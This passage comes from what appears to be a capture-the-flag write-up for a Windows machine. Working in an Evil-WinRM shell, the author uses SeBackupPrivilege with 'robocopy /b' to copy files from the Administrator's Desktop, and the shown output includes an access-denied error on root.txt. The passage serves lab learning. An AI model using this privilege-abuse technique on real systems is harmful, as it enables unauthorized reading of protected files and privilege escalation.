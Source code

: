 ```powershell
```

Seems like we have the `SeBackupPrivilege` and `SeRestorePrivilege`, which gives us arbitrary read access. I have found a nice [presentation](https://hackinparis.com/data/slides/2019/talks/HIP2019-Andrea_Pierini-Whoami_Priv_Show_Me_Your_Privileges_And_I_Will_Lead_You_To_System.pdf) talking about different privesc techniques.

#### Backup of the admin's desktop

```powershell
*Evil-WinRM* PS C:\tmp> robocopy C:\Users\Administrator\Desktop . /b                                                                                                                                                          -------------------------------------------------------------------------------                                   ROBOCOPY     ::     Robust File Copy for Windows                                                            -------------------------------------------------------------------------------
                                                                                                                 Started : Sunday, October 4, 2020 10:33:23 AM                                                                
   Source : C:\Users\Administrator\Desktop\                                                                    
     Dest : C:\tmp\                                    

    Files : *.*                                        

  Options : *.* /DCOPY:DA /COPY:DAT /B /R:1000000 /W:30                                                        

------------------------------------------------------------------------------

                           3    C:\Users\Administrator\Desktop\
            New File                 282        desktop.ini                                                    
  0%                                                   
100%                                                   
            New File                 447        notes.txt                                                      
  0%                                                   
100%                                                   
            New File                  32        root.txt                                                       
2020/10/04 10:33:23 ERROR 5 (0x00000005) Copying File C:\Users\Administrator\Desktop\root.txt
Access is denied.

*Evil-WinRM* PS C:\tmp> dir

    Directory: C:\tmp

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-a----        2/28/2020   4:36 PM            447 notes.txt
```
